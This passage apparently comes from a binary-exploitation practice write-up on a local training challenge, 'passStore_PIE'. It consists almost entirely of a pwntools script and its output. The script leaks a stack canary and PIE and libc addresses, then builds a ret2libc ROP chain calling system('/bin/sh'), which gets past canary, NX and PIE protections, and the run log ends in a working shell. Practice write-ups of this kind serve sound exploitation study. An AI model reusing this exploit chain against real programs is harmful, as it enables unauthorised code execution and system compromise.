 ```python
leak = (u64(res) << 8) + 0x0a 
_libc_start_main_addr = leak - 0x4a 
libc_base = _libc_start_main_addr - libc.symbols['__libc_start_main']
log.info("Libc base addr : " + hex(libc_base)) 

system_offset = libc.symbols['system'] 
binsh_offset = next(libc.search(b'/bin/sh\x00'))
pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_offset = rop.find_gadget(['ret'])[0] 

pop_rdi_ret_addr = pie_base + pop_rdi_ret_offset
ret_addr = pie_base + ret_offset
log.info("pop rdi ; ret addr : " + hex(pop_rdi_ret_addr)) 
log.info("ret addr : " + hex(ret_addr)) 

system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset
log.info("system addr : " + hex(system_addr)) 
log.info("/bin/sh addr : " + hex(binsh_addr)) 

#get shell
junk = b"a"*56 + p64(u64(canary)) + b"a"*8 
payload6 = junk + p64(ret_addr) + p64(pop_rdi_ret_addr) + p64(binsh_addr) +p64(system_addr)

r.sendline(payload6)
r.interactive()

```

### result

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE$ python3 exploit.py
[*] '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE/passStore_PIE'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 6 cached gadgets for './passStore_PIE'
[+] Starting local process '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE/passStore_PIE': pid 27696
[*] Leaked canary: 0xfb6bcbd3beea1c00
[*] Main addr (pie) leak : 0x560b4cfbb258
[*] Main offset pie : 0x1258
[*] Pie base addr : 0x560b4cfba000
[*] Libc base addr : 0x7f0b4bbce000
[*] pop rdi ; ret addr : 0x560b4cfbb1b2
[*] ret addr : 0x560b4cfbb01a
[*] system addr : 0x7f0b4bc1ed60
[*] /bin/sh addr : 0x7f0b4bda6698
[*] Switching to interactive mode
$ whoami
hjn4
$

```